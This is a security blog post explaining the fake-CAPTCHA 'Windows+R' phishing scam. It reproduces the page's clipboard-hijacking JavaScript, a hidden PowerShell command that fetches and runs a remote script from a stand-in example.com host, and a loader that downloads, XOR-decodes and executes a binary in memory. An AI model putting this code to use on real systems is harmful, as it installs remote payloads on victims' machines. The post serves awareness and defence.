 +++
title = "How Does the PowerShell Phishing Attack Work"
date = 2024-10-29T06:57:18+08:00
aliases = ["posts/how-does-the-windows-r-scam-work"]

[taxonomies]
tags = ["CAPTCHA", "PowerShell", "Security", "Windows"]
+++

You might have heard of the new scam about the [CAPTCHA] which asks you to use Windows + R to verify that you are human.
It gives you a popup and introduces a verification step with `Windows + R` and `Ctrl + V` then press `Enter`.
You probably already know how it works, but let's take a closer look at their code this time.

<!-- more -->

Usually we see these scams from websites like [GitHub], [Reddit], etc.
They are usually disguised as normal comments, such as the below:

> Maybe this solution will solve your problem click this link: ...

They provide you with a link a and when you open it, you will find that the page requires a CAPTCHA verification.
When you click this CAPTCHA button, a window will pop up on the page and ask you to use a set of key combinations to complete the verification.
Like this:

> Verification Steps:\
> 1 - Press Windows + R\
> 2 - Press Ctrl + V\
> 3 - Press Enter

If you follow the steps they provide, you will fall into their trap.

### What happened during this process?

Let's look directly at their code to see what is executed during the process.

First, let's use [cURL] to obtain the source code of the target URL. I'm using an [example domain] here in case you accidentally enter the trap.

```bash
curl https://example.com/captcha.html
```

Let's take a look at the key codes in the obtained content:

```js
function open_modal() {
  var copyText =
    "powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()";
  var textarea = document.createElement("textarea");
  textarea.value = copyText;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  setTimeout(() => {
    document.querySelector("#modal").classList.remove("hidden");
  }, 2000);
}
```

It creates a phishing modal and uses [execCommand("copy")] to secretly copy a command to your clipboard.
Browsers cannot automatically copy texts to the user's clipboard. This requires the user's interaction, so there is a CAPTCHA here.
Let's see what the command does:

```powershell
powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()
```

- `irm` is an alias of the [Invoke-RestMethod] command of [PowerShell]. This is used to send an HTTP or HTTPS request to a RESTful web service.
- [\[ScriptBlock\]::Create] creates a script block based on a script to be parsed when execution contenxt is provide.
- [-WindowStyle Hidden] sets the window style for the session to hidden.

Now let's move to the `https://example.com/scam` to see its content:

```bash
curl https://example.com/scam
```

```powershell
$url = "https://example.com/binary"
$webClient = New-Object System.Net.WebClient
$sell61 = $webClient.DownloadData($url)
$gossip123 = 0x09, 0x04, 0x05
$struggle6 = [byte[]]::new($sell61.Length)

for ($i = 0; $i -lt $sell61.Length; $i++) {
  $struggle6[$i] = $sell61[$i] -bxor $gossip123[$i % $gossip123.Length]
}

$afraid16 = [System.AppDomain]::CurrentDomain.Load($struggle6)

if ($afraid16.EntryPoint -ne $null) {
  $afraid16.EntryPoint.Invoke($null, @($null))
} else {
  Write-Host "glass glimpse glue gloom"
}
```

- [New-Object System.Net.WebClient] provides a common methods for sending data to and receiving data from a resource identified by a URI.
- `-bxor` is an [arithmetic operator] for bitwise XOR calculation. In this for-loop it should be a deobfuscation process.
- [\[Sytem.AppDomain\]::CurrentDomain.Load] loads an [Assembly] into the specific domain.

Then they can do whatever they want with your operating system through the implanted application.

### Why is the phishing method so effective?

Effective phishing methods are often easy to operate and can catch you without realizing it. It calls `misdirection`.
Just like CAPTCHA, the various verification methods now make people lose their vigilance, and some people lack basic computer knowledge and fall into this trap.
Here is video [The art of misdirection] if you want to learn more about it.

On the other hand, due to the rise of smartphones and tablets, some people have become computer illiterate, especially the kids.
As the [Reddit post from r/Teachers] mentioned, more and more students don't know how to use computers.
People use their laptops only for schoolwork, and that's really about all you can do with it since the OS is so limited/sandboxed.

These factors combined make this phishing attack method such effective.

### Other similar attacks

Some merchants on the Internet will sell Steam games at extremely low prices.
They will give you a script and ask you to execute it.
This script will install pirated games on your computer and take the opportunity to implant malicious scripts.

### Links

- [Assembly]
- [CAPTCHA]
- [GitHub]
- [Invoke-RestMethod]
- [New-Object System.Net.WebClient]
- [PowerShell]
- [Reddit]
- [Reddit post from r/Teachers]
- [The art of misdirection]
- [arithmetic operator]
- [cURL]
- [example domain]
- [execCommand("Copy")]
- [-WindowStyle Hidden]
- [\[ScriptBlock\]::Create]
- [\[Sytem.AppDomain\]::CurrentDomain.Load]

[Assembly]: https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly
[CAPTCHA]: https://en.wikipedia.org/wiki/CAPTCHA
[GitHub]: https://github.com
[Invoke-RestMethod]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-restmethod
[New-Object System.Net.WebClient]: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Reddit]: https://www.reddit.com
[Reddit post from r/Teachers]: https://www.reddit.com/r/Teachers/comments/xuxbo9/why_dont_they_know_how_to_use_computers/
[The art of misdirection]: https://www.youtube.com/watch?v=GZGY0wPAnus
[arithmetic operator]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators
[cURL]: https://curl.se
[example domain]: https://www.iana.org/help/example-domains
[execCommand("Copy")]: https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand
[-WindowStyle Hidden]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pwsh#-windowstyle---w
[\[ScriptBlock\]::Create]: https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.scriptblock.create
[\[Sytem.AppDomain\]::CurrentDomain.Load]: https://learn.microsoft.com/en-us/dotnet/api/system.appdomain.load
